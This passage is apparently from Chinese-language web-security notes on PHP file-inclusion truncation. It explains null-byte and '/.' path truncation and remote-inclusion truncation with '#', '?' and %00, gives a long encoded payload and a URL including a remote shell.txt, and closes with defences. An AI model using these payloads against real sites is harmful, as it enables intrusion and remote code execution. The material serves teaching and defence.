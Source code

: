 当使用后缀名固定时可考虑截断

```
include($_GET['file'].'jpg') //写死文件后缀
```

文件包含截断攻击，在 php 版本小于 5.3.4 允许使用 %00 截断，在使用 include 等文件包含函数，可以截断文件名，截断会受 gpc 影响，如果 gpc 为 On 时，%00 会被转以成\0 截断会失败

## %00 截断

上传带有恶意代码的文件到网站目录，包含引入再进行 00 截断。 当前测试的版本是 php 5.2.17 gpc=off

## /.截断

```
?file=x.jpg%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%
2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f
%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2
e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%
2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f
%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2
e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%
2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e
```

## 远程包含截断

适用于远程截断的字符有

| 符号 | url 编码 |
| ---- | -------- |
| \#   | %23      |
| ?    | %3f      |
| 00   | %00      |

以上这个字符都可以截断

```
allow_url_fopen =On
allow_url_include=On
```

```
http://192.168.0.103/lfi2.php?file=http://192.168.0.103/shell.txt?
```

# 防御

```
1.严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制
2.路径限制：限制被包含的文件只能在某一文件内，一定要禁止目录跳转字符，如："../"
3.包含文件验证：验证被包含的文件是否是白名单中的一员
4.尽量不要使用动态包含，可以在需要包含的页面固定写好，如：include('head.php')。5.设置 allow_url_include 为 Off
```
